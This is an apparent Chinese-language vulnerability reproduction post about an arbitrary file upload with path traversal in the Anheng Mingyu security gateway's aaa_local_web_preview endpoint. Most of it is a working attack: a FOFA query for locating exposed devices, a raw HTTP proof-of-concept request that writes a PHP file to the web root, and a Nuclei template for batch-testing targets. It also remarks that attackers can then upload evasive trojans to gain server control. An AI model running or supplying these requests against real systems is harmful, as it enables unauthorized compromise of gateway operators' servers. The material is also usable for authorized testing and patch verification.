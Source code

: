 # 原创
：  漏洞复现--安恒明御安全网关 aaa_local_web_preview 任意文件上传

# 漏洞复现--安恒明御安全网关 aaa_local_web_preview 任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品aaa_local_web_preview端点存在文件上传漏洞。

### 二：漏洞影响版本

安恒明御网关

### 三：网络空间测绘查询

fofa：<br/> `title=="明御安全网关"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b8110dd087506dded83e45aa08466d8d.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dd377b0ee6358d4da48fb4ac79be6012.jpeg"/><br/> POC：

```
POST /webui/?g=aaa_local_web_preview&amp;name=123&amp;read=0&amp;suffix=/../../../test.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=849978f98abe41119122148e4aa65b1a
Accept-Encoding: gzip
Content-Length: 200

--849978f98abe41119122148e4aa65b1a
Content-Disposition: form-data; name="123"; filename="test.php"
Content-Type: text/plain

This page has a vulnerability
--849978f98abe41119122148e4aa65b1a--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/40f45bfa30e583ad25d3590b9e0b7008.jpeg"/><br/> success即代表上传成功，访问/test.php<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/43054e8ade95c5e102c3745709821eed.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bd656f6eaf1b305ad82cc7b74f4da628.jpeg"/><br/> 成功解析，可上传免杀木马获取服务器权限。

### 五：批量验证

```
id: Anheng-mingyu-wangguan-upload

info:
  name: Anheng-mingyu-wangguan-upload
  author: 芝士土拨鼠
  severity: high
  description: 安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品aaa_local_web_preview端点存在文件上传漏洞

requests:
  - raw:
      - |+
        POST /webui/?g=aaa_local_web_preview&amp;name=123&amp;read=0&amp;suffix=/../../../test.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Content-Type: multipart/form-data; boundary=849978f98abe41119122148e4aa65b1a
        Accept-Encoding: gzip
        Content-Length: 173

        --849978f98abe41119122148e4aa65b1a
        Content-Disposition: form-data; name="123"; filename="test.php"
        Content-Type: text/plain

        This page has a vulnerability
        --849978f98abe41119122148e4aa65b1a--

      - |
        GET /test.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'vulnerability'
      - type: status
        status:
          - 200

```

### 修复建议

限制aaa_local_web_preview的访问权限，联系商家获取修复补丁
